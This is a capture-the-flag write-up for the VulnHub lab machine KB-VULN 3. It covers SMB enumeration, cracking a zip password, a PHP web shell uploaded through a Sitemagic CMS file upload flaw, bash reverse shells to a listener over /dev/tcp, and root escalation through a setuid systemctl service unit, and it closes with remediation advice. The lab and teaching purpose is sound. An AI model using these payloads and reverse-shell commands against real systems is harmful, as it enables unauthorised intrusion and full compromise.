

# KB-VULN 3

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [KB-VULN: 3](https://www.vulnhub.com/entry/kb-vuln-3,579/)
- CVSS3 : [AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This machine is the kind that will measure your research ability. This VM is running on VirtualBox.It includes 2 flags:user.txt and root.txt.This works better with VirtualBox rather than VMware.*

## Summary
KB-VULN: 3 starts with a `Samba smbd` service that allows anonymous connection, and I find the `website.zip` file, the `zip` file requires a password, but with `zip2jhon` and `john` with the Rockyou list I was able to crack it. I find the `admin:jesse` credentials, the domain name `kb.vuln`, and the `sitemagic` directory that contains the source code of the website. After researching `Sitemagic cms 4.4.2` then I find a [PoC in exploit-db](https://www.exploit-db.com/exploits/48788) and a disputed `CVE-2019-9042`. The credentials work to login on to the website and I could exploit the `CVE` and get a reverse shell with the `www-data` user. In the server I find the user flag in the `heisenberg`'s home directory, and with `LinPEAS` I identify that the `systemctl` binary has `setuid` permissions, and I find [well-explained Github Gist about systemctl](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740), but I need to have some considerations in order to exploit that vulnerability and get the `root` shell and the `root` flag.

1. CWE-921: Storage of Sensitive Data in a Mechanism without Access Control
2. CWE-1391: Use of Weak Credentials
3. CWE-256: Plaintext Storage of a Password
4. CWE-434: Unrestricted Upload of File with Dangerous Type
5. CWE-732: Incorrect Permission Assignment for Critical Resource

#VirtualBox #Nmap #Python #LinPEAS #setuid #gtfobins #PHP #Samba #SMB #Smbclient #John #zip2jhon #Sitemagic #WebShell #systemctl

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.21`.



When I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.21
```
Then I can see:


And I identify 4 open ports, and the `OpenSSH 7.6p1` service runs on `22` TCP, and the `Apache httpd 2.4.29` service runs on `80` TCP, and the `Samba smbd 3.X - 4.X` service runs on `139` and `445` TCP, and it runs on `Ubuntu 4ubuntu0.3`

## Normal use case
Given I access `http://192.168.2.21`, then I can see:


And there is nothing to do on the website.

## Dynamic detection
Sensitive data exposed in `SMB` service and arbitrary file upload to `Sitemagic`.

Given I can access `smb://192.168.2.21`, then I will check it.
When I use the `smbclient` command without a password:
```shell
$ smbclient -L \\\\192.168.2.21 -N
Sharename       Type      Comment
---------       ----      -------
Files           Disk      HACK ME
IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
```
Then I can see the `Files` directory. When I access the `Files` directory:
```shell
$ smbclient \\\\192.168.2.21\\Files -N
```
Then I can see a file called `website.zip`:


And I download it. When I try to `unzip` it, then I notice that it asks for a password, and now, I will try to crack it
When I use the `zip2jhon` command:
```shell
$ zip2john website.zip > website.hash
```
Then I get the hash of the `zip` file, when I run the `john the ripper` command, and I use the Rockyou list:
```shell
$ john  --wordlist=rockyou.txt website.hash
...SNIPPED...
porchman         (website.zip)
...SNIPPED...
```
When I `unzip` the files with the password `porchman`:
```shell
$ unzip -P 'porchman' -d website website.zip &>/dev/null
website
├── README.txt
└── sitemagic
    ├── ...SNIPPED...
...SNIPPED...
```
Then I can see a `README.txt` file and a directory, when I read the `README.txt` file:
```
Hi Heisenberg! Your website is activated. --> kb.vuln
Username: admin
Password: jesse
Have a good day!
```
Then I can see the admin credentials are `admin:jesse`, and I also see the domain name `kb.vuln`, and I add it to my `/etc/hosts` files:
```shell
$ echo "192.168.2.21 kb.vuln" | sudo tee -a /etc/hosts
```
When I check the `sitemagic` directory, then I can see that it is the source code of a `webroot`, and it is built with `Sitemagic CMS`, and I can guess that the source code is from the current website, when I read the `/sitemagic/metadata.xml`, then I can see that the `Sitemagic` version is `4.4.2`. but I will confirm my guess before googling that version, when I access `http://kb.vuln`, then I can see:


And I confirm that the site is running the source code found in the `SMB`, when I google `Sitemagic cms 4.4.2 exploit`, then I find a [PoC in exploit-db](https://www.exploit-db.com/exploits/48788):


And it is an arbitrary file upload, and it requires authentication, and I also find that there is a disputed `CVE-2019-9042`:


When I go to the login page `http://kb.vuln/index.php?SMExt=SMLogin`, and I use the credentials `admin:jesse`, then I confirm that the credentials work. When I write the file called `ws.php` with the following payload:
```shell
$ echo "<?php system(\$_GET['cmd']); ?>" > ws.php
```
And I follow the steps found on the exploit-db page, and I upload the payload web shell:


Then I can run the `bash` code:


And I can confirm that there is an arbitrary file upload vulenaribity.

## Exploitation
Setuid permission on systemctl allows starting services as the `root` user.

Given I can access `http://kb.vuln`, and it runs `Sitemagic CMS 4.4.2`, and I have the admin credentials `admin:jesse`, and there is an arbitrary file upload vulenaribily, and that allows me to upload PHP code, and inject `bash` commands with the PHP function `system()`, then I can try to perform a reverse shell. When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I run:
```shell
$ curl "http://kb.vuln/files/images/ws.php?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.2.31/1234%200>%261'"
```
Then it works:


And I start to explore the server, when I check the home directory of the user `heisenberg`, then I find the user flag:


## Privilege escalation

I keep exploring the server, but I could not find anything that looks vulnerable, and I decided to use some automated tools. When I download `LinPEAS` on my local machine:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/releases/latest/
> download/linpeas.sh"
```
And I open an `HTTP` service with Python3:
```shell
$ python3 -m http.service 8000
```
And I download the `linpeas.sh` file on the target machine:
```shell
$ www-data@kb-server:/tmp$ wget 192.168.2.31:8000/linpeas.sh
```
And I give it executable permissions:
```shell
$ www-data@kb-server:/tmp$ chmod +x linpeas.sh
```
And I run it:
```shell
$ www-data@kb-server:/tmp$ ./linpeas.sh
```
Then I could not see anything useful, and at this point I was stuck, and I decided to start testing the CVEs recommended by `LinPEAS`, but none of them work. When I check each binary with permissions `setuid`:


Then it does not work either, and I left the machine for several days. When I decided to take it back, then I decided to start from scratch, and I restored the machine. When I upload and run the `linpeas.sh` file again, then I identify a dangerous `setuid` permissions:


And that is very strange because I checked them several times, and I never saw the `systemctl` binary with `setuid` permissions, and maybe there was a problem with the machine. When I search [`systemctl` in gtfobins](https://gtfobins.github.io/gtfobins/systemctl/), and I also google `setuid systemctl`, thenI find a [well-explained Github Gist](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740):


When I read them both, then I understand that I can start any services with `root` privileges, and I start testing, but I notice that the reverse shell connection was closed. When I perform the reverse shell again, then I notice that `systemctl` no longer has the setuid permission, and this is very strange, but it explains why in the first case I could see it, and I restore the machine again. When I write a service file to the `/tmp` directory:
```shell
$ www-data@kb-server:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "id > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > root.service
```
And I enable it with the `systemctl` command:
```shell
$ www-data@kb-server:/tmp$ systemctl link root.service
Link argument does contain at least one directory separator: root.service
```
Then I can see an error. When I google `Failed to link unit: No such file or directory`, then I find the question [I cant enable or disable a user service failed to execute operation no sufh file or directory](https://unix.stackexchange.com/questions/225319/i-cant-enable-or-disable-a-user-service-failed-to-execute-operation-no-such-f):


And it looks like I need to find another location to store the service, When I run the `find` command:
```shell
$ www-data@kb-server:/tmp$ find / -maxdepth 2 -writable -type d -ls \
> 2>/dev/null

0 drwxrwxrwt   2 root     utmp           40 Feb 14 16:27 /run/screen
0 drwxrwxrwt   5 root     root          100 Feb 14 16:27 /run/lock
0 drwxrwxrwt   2 root     root           40 Feb 14 16:27 /dev/mqueue
0 drwxrwxrwt   2 root     root           40 Feb 14 16:27 /dev/shm
4 drwxrwxrwt   2 root     root         4096 Feb 14 16:29 /tmp
4 drwxrwxrwt   2 root     root         4096 Feb 14 16:27 /var/tmp
4 drwxrwxrwt   2 root     root         4096 Aug  6  2020 /var/crash
```
Then I choose the first one on the list for the test, when I copy the service file to the `/run/screen directoy`:
```shell
$ www-data@kb-server:/tmp$ cp root.service /run/screen/
```
And I try to link it:
```shell
$ www-data@kb-server:/tmp$ systemctl link /run/screen/root.service
Failed to link unit: File /etc/systemd/system/root.service already exists
and is a symlink to /home/heisenberg/root.service.
```
Then I fails again. When I rename the file to `testing.service`, and I run:
```shell
$ www-data@kb-server:/run/screen$ systemctl link \
> /run/screen/testing.service

Created symlink /etc/systemd/system/testing.service ->
/run/screen/testing.service.
```
Then I works.
When I try to start the service:
```shell
$ www-data@kb-server:/run/screen$ /bin/systemctl start testing
```
And I check the `/tmp` directory, then the file `output` was not created, and I am starting to think there is a problem with the `/tmp` directory, and I decided to change the directory of my test payload, and now, I just want to try to create the file `/run/screen/testps`, when I use the `sed` command:
```shell
$ www-data@kb-server:/run/screen$ sed -i \
> "s/ExecStart=.*/ExecStart=\/bin\/sh \-c \'touch \/run\/screen\/testps\'
> /g" testing.service
```
And I use the `systemctl` command:
```shell
$ www-data@kb-server:/run/screen$ systemctl daemon-reload
```
And I restart the service:
```shell
$ www-data@kb-server:/run/screen$ systemctl restart testing
```
And I check if the file `testps` was created:
```shell
$ www-data@kb-server:/run/screen$ ls -la
...SNIPPED...
-rw-r--r--  1 www-data www-data 108 Feb 14 16:45 testing.service
-rw-r--r--  1 root     root       0 Feb 14 16:46 testps
```
Then it works, and now, I am going to perform a reverse shell. When I modify the `testing.service`:
```shell
$ www-data@kb-server:/run/screen$ sed -i \
> "s/ExecStart=.*/ExecStart=\/bin\/bash \-c \'bash \-i \>\&
> \/dev\/tcp\/192.168.2.31\/1235 0\>\&1\'/g" testing.service
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1235
```
And I restart the service:
```shell
$ www-data@kb-server:/run/screen$ systemctl daemon-reload && \
> systemctl restart testing
```
Then I can get the `root` shell, and I can get the `root` flag:


## Remediation
Given I find the source code, domain name, and admin credentials, and I find them in the `SMB` services in a public directory, and the server is running `Sitemagic CSM 4.4.2`, and I can perform the disputed `CVE-2019-9042`, and the `Apache` service allows the execution of the `system` PHP function, and I find that `sytemtctl` has `setuid` permissions, then they should not store sensitive data in public directories, and do not use guessable passwords, and they should avoid storing passwords in plain text, and force change temporary passwords, and uses stronger passwords to avoid dictionary or brute-force attacks, and set `FileExtensionFilter` in `Sitemagic CSM`, and block critical PHP functions and remove the setuid permission on the `systemctl` binary, then with that, it may not be possible to get the root's shell